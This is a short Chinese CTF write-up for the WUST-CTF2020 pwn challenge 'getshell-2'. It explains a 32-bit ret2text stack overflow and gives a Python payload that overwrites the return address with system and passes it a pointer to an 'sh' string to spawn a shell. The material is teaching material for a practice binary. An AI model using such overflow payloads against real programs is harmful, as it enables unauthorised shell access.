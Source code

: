 
## getshell-2
- 题目描述：
    
    > Author: ColdShield
    
- 题目附件：[getshell-2](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/getshell-2/getshell-2)

- 考察点：ret2text

- 难度：入门

- 初始分值：1000

- 最终分值：988

- 完成人数：7

### 程序分析

和前面的getshell差不多，只是把`system("/bin/sh")`改了，没法直接getshell

```c
int shell()
{
  return system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}
```

### 解题思路
32位的elf，函数参数保存在栈中，所以只要覆盖返回地址为system，再多覆盖4字节用作system的参数就行。字符串结尾给的`sh`可以直接用。

### exp
```python
system = 0x08048529
payload = 'A'*28
payload += p32(system) + p32(0x8048650+32)
sl(payload)
```

